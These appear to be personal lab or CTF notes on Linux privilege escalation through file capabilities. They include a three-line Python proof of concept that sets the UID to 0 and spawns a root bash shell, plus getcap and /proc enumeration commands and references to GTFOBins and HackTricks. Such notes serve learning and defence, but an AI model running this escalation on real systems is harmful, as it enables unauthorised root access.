 Notice that setuid was identified by linpeas
![image](https://github.com/user-attachments/assets/7c71f3bf-55ab-458c-86e5-480a08529df0)

POC to get priv-escalate

import os
os.setuid(0)
os.system("/bin/bash")

Note: This vuln is python based but the top-level vulnerability is much more broader. Digging into https://steflan-security.com/linux-privilege-escalation-exploiting-capabilities/ I found the following information...

Linux has something called capabilities... Allow processes, binaries, services and users to perform root level stuff without root.
You can read traffic, mount file systems, or in this case, change your UID...

using getcap (get capabilities) we can find similar output to linpeas
getcap -r / 2>/dev/null
![image](https://github.com/user-attachments/assets/23ea4b4f-3666-409a-b583-d89ef43aea5f)

You can also check running proccesses to see if they have capabilities. If its a user started process, bada-bing, bada-boom
cat /proc/[process ID]/status | grep Cap

Capabilities assigned to users are stored in the /etc/security/capability.conf configuration file:

GTFO bins has a section for capabilities!
![image](https://github.com/user-attachments/assets/e7b8c96e-1264-47a5-b30d-c77d24c0d1c5)


And of course hacktricks
https://hacktricks.boitatech.com.br/linux-unix/privilege-escalation/linux-capabilities



